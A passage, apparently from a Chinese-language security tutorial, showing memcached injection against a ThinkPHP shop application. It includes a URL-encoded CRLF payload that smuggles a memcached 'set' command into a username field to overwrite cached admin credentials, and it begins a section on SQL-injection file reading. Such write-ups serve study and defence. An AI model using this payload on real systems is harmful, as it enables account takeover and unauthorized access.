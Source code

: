 我们新建一个 admin 账户的值在进行一下查询：

[![](assets/1708920194-8bc1708c3d4209d319b06ac8b700c764.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215111728-bfa8e8c4-cbb0-1.png)

```bash
get think:shop.admin|admin
VALUE think:shop.admin|admin 4 83
a:1:{i:0;a:3:{s:2:"id";i:1;s:8:"username";s:5:"admin";s:8:"password";s:5:"admin";}}
END
```

memcached 本身是没有数据类型的，只有 key-value 的概念，存放的都是字符串，但是 PHP 编程语言给它给予了数据类型的概念（当 flags 为 0 为字符串，当 flags4 为数组）,所以我们在注入的时候也要设置 flags 为 4 的值进行注入：

```bash
admin
set think:shop.admin|admin 4 900 101
a:3:{s:2:"id";i:1;s:8:"username";s:5:"admin";s:8:"password";s:32:"21232f297a57a5a743894a0e4a801fc3";}

admin%00%0D%0Aset%20think%3Ashop.admin%7Cadmin%204%20900%20101%0D%0Aa%3A3%3A%7Bs%3A2%3A%22id%22%3Bi%3A1%3Bs%3A8%3A%22username%22%3Bs%3A5%3A%22admin%22%3Bs%3A8%3A%22password%22%3Bs%3A32%3A%2221232f297a57a5a743894a0e4a801fc3%22%3B%7D
```

可以看到已经在缓存中有了结果：

[![](assets/1708920194-4f676b4ac72e180c7a26ac30b10cacf2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215111738-c5dc486c-cbb0-1.png)

### SQL 注入读文件：

```bash
show variables like "%secure_file%";
```
